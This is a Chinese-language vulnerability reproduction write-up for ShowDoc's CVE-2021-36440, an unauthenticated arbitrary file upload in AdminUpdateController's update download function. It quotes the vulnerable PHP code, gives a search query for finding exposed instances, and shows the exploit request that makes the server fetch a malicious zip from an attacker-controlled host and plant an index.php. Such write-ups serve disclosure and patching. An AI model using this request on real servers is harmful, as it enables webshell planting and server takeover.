 # ShowDoc AdminUpdateController.class.php 任意文件上传漏洞 CVE-2021-36440

## 漏洞描述

ShowDoc AdminUpdateController.class.php 文件中的更新部分代码没有鉴权且存在任意文件上传漏洞

## 漏洞影响

<a-checkbox checked>ShowDoc < V2.9.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ShowDoc"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1638708274023-ae45bb10-901c-483e-b3df-0a5cfd52da81.png)

文件路径**server/Application/Api/Controller/AdminUpdateController.class.php**

![img](../../../.vuepress/public/img/1638708347572-cf80a24d-71bb-4c3c-8676-201900ffd87e.png)

```php
public function download(){
        set_time_limit(1000);
        ini_set('memory_limit','500M');
        $new_version = I("new_version") ;
        $file_url = I("file_url") ;
        $version_num = str_replace("v","",$new_version) ;

        $showdoc_path = "../" ;

        // 进行文件读写权限检查
        if(!$this->new_is_writeable($showdoc_path)
            || !$this->new_is_writeable($showdoc_path."Sqlite/" )
            || !$this->new_is_writeable($showdoc_path."web/" )
            || !$this->new_is_writeable($showdoc_path."web/index.php" )
            || !$this->new_is_writeable($showdoc_path."server/" )
            || !$this->new_is_writeable($showdoc_path."server/vendor/autoload.php" )
            || !$this->new_is_writeable($showdoc_path."server/Application/Api" )
        ){
            $this->sendError(10101,'请手动给showdoc安装目录下的所有文件可写权限，否则程序无法覆盖旧文件');
            return ;
        }

        $temp_dir = sys_get_temp_dir()."/showdoc_update/";
        $zip_file = $temp_dir.'showdoc-'.$version_num.'.zip' ;
        mkdir($temp_dir) ;
        unlink($zip_file);
        $file = file_get_contents($file_url);
        file_put_contents($zip_file,$file);
        
        $zip = new \ZipArchive();
        $flag = $zip->open($zip_file);
        if($flag!==true){
            $this->sendError(10101,'下载更新压缩包失败');
            return ;
        }
        $zip->extractTo($temp_dir);
        $flag = $zip->close();
        
        $zip_file_subpath = $temp_dir.'showdoc-'.$version_num."/" ;
        
        if(file_exists($zip_file_subpath.'composer.json') && file_exists($zip_file_subpath.'web/index.php') && file_exists($zip_file_subpath.'server/vendor/autoload.php') ){
            //echo $zip_file_subpath.'存在';
            // 移动目录到upload/update
            $this->copydir($zip_file_subpath ,$showdoc_path.'Public/Uploads/update/' );
            $this->deldir($temp_dir);
            $this->sendResult(array());
        
        }else{
            $this->sendError(10101,'下载更新压缩包后，解压的文件缺失');
            return ;
        }
    }
```

这里可以看到 $file_url 参数可控，可在任意URl下载 zip文件，向后看看ZIP要求为需要存在部分文件

```php
if(file_exists($zip_file_subpath.'composer.json') && file_exists($zip_file_subpath.'web/index.php') && file_exists($zip_file_subpath.'server/vendor/autoload.php') ){
```

制作ZIP包, index.php 为恶意文件

![img](../../../.vuepress/public/img/1638708478505-107a09b3-7d01-40a6-86ed-9a4822bda800.png)

发送请求包

```php
POST /server/index.php?s=/api/adminUpdate/download
  
file_url=http://xxx.xxx.xxx:8888/showdoc-2.zip&new_version=2
```

![img](../../../.vuepress/public/img/1638708837279-80c1936d-40d8-4687-a7ce-8da4747e5d15.png)

访问上传的文件页面 **Public/Uploads/update/web/index.php**